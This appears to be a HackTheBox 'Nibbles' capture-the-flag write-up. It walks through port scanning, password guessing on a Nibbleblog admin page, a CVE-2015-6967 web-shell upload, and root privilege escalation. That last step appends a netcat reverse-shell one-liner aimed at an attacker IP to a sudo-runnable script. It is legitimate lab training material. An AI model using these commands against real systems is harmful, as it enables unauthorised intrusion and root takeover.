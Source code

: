 ```yaml
---
title: HackTheBox - Nibbles WriteUp
date: 2025-07-03 19:19:00 +/-0100
categories: [Machines]
tags: [CTF,HackTheBox]
image: /assets/img/Machines/Nibbles/Nibbles.png
description: 
    This post documents my walkthrough of the Nibbles machine from Hack The Box. It involves basic enumeration, a web app vulnerability, and simple Linux privilege escalation.
---
```





## Enumeration

### Port Scanning
The first thing that we're going to do is scanning for open ports using Nmap.

```bash
# Nmap 7.95 scan initiated Wed May  7 18:25:33 2025 as: /usr/lib/nmap/nmap -Pn -n -sC -sV -T4 -p- -oA Nmap-All-Ports 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  7 18:26:06 2025 -- 1 IP address (1 host up) scanned in 32.22 seconds
```
The Nmap scan returns a bunch of information, such as:
- The operating system is Ubuntu.
- Port `80/tcp` is open and running `HTTP` (Apache httpd 2.4.18).
- Port `22/tcp` is open and running `SSH` (OpenSSH 7.2p2 Ubuntu 4ubuntu2.2).

Since we don't have SSH credentials, we'll focus our attention on port 80.

### HTTP - Port 80

We begin by inspecting the root directory.

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ curl 10.10.10.75 -o RDirectory-SC
```

![Desktop View](/assets/img/Machines/Nibbles/Root-Directory.png)

While inspecting the root directory, we discovered a new subdirectory: `/nibbleblog`.

### /nibbleblog

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-Webpage.png)

Nothing intersting in this directory beside that the website is powered by `nibbleblog`.  
Using `Wappalyzer` we found the following results:

![Desktop View](/assets/img/Machines/Nibbles/Wappalyzer.png)

Page extension should be `.php`

### Directory / Page Fuzzing

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.75:80/nibbleblog/FUZZ -ic -e .php -o Directory-Fuzzing.json
```

![Desktop View](/assets/img/Machines/Nibbles/Directory-Page-Fuzzing.png)

#### /README 

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-version.png)

This reveals the version of Nibbleblog that is being used. → `Nnibbleblog v4.0.3`

#### /content/users.xml

![alt text](../assets/img/Machines/Nibbles/content-users.png)

Username → `admin`

#### /admin.php 

![alt text](../assets/img/Machines/Nibbles/admin-pge.png)

It seems like the app blacklist IPs after some failed attemps.
After a deep inspection of the pages found i couldn't find a valid password, also nibbleblog does not have default creds. 
So we'll need to guess the password.

- admin : password
- admin : root
- admin : administratot
- `admin` : `nibbles`  → This one worked

## Exploitation

CMS used: `Nibbleblog v4.0.3`
This version of Nibbleblog is vulnerable to `CVE-2015-6967` which is an unrestricted file upload vulnerability in the `Image plugin` that allows remote administartors to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in `content/private/plugins/my_image/image.php`

CVE Links:
- [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)  
- [POC](https://packetstorm.news/files/id/133425)

Web Shells used:
- [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
- [p0wny-shell](https://github.com/flozz/p0wny-shell)

Go to : `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`  
Upload the web shell. ignore the errors

![alt text](../assets/img/Machines/Nibbles/webshell.png)

Finally access the image in `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`

![alt text](../assets/img/Machines/Nibbles/whoami.png)

As we can see the web shell works perfectly.  
Now let's search for the user flag.

![alt text](../assets/img/Machines/Nibbles/user-flag.png)

## Privilege Escalation

The first thing to do is run the `sudo -l` command to check if the current user can execute any commands as root without requiring the root password.

![alt text](../assets/img/Machines/Nibbles/sudo-l.png)

It turns out that the user `nibbler` can run `monitor.sh` as root.

**PS:** Don't mind me changing the web shell. I just wanted to test them both.

```bash
nibbler@Nibbles:…/plugins/my_image# unzip personal.zip

nibbler@Nibbles:…/plugins/my_image# cd personal/stuff

nibbler@Nibbles:…/plugins/my_image# echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [Attacker_IP] 1234 > /tmp/f" >> monitor.sh
```

![alt text](../assets/img/Machines/Nibbles/Priv_Escalation.png)

Now let's search for the root flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# cd /root

root@Nibbles:/home/nibbler/personal/stuff# cat root.txt
```

![alt text](../assets/img/Machines/Nibbles/root-flag.png)

# Mission complete

![alt text](../assets/Done.gif)